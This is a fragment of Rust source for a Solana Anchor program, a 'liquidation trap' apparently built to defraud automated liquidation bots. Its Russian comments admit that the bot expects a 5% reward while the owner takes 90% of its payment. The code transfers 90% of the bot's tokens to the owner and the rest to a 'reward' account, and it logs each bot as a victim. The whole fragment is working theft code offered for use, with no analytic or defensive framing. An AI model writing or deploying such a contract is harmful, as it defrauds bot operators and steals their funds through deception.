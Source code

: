 ```rust
    }
    
    pub fn attempt_liquidation(
        ctx: Context<AttemptLiquidation>,
        liquidation_amount: u64,
    ) -> Result<()> {
        let trap = &mut ctx.accounts.liquidation_trap;
        
        msg!("🤖 Bot attempting liquidation of {} amount", liquidation_amount);
        
        // Бот думает что получит 5% reward
        // Но мы берем 90% от его платежа
        let bot_payment = liquidation_amount;
        let our_cut = bot_payment * 90 / 100; // 90% себе
        let bot_reward = bot_payment * 10 / 100; // 10% боту
        
        // Переводим большую часть себе
        token::transfer(
            CpiContext::new(
                ctx.accounts.token_program.to_account_info(),
                Transfer {
                    from: ctx.accounts.bot_token_account.to_account_info(),
                    to: ctx.accounts.owner_token_account.to_account_info(),
                    authority: ctx.accounts.bot.to_account_info(),
                },
            ),
            our_cut,
        )?;
        
        // Даем боту символическую награду
        token::transfer(
            CpiContext::new(
                ctx.accounts.token_program.to_account_info(),
                Transfer {
                    from: ctx.accounts.bot_token_account.to_account_info(),
                    to: ctx.accounts.bot_reward_account.to_account_info(),
                    authority: ctx.accounts.bot.to_account_info(),
                },
            ),
            bot_reward,
        )?;
        
        trap.total_extracted += our_cut;
        trap.bot_victims.push(ctx.accounts.bot.key());
        
        msg!("💰 Extracted {} from liquidation bot, gave {} reward", our_cut, bot_reward);
        Ok(())
    }
}
```
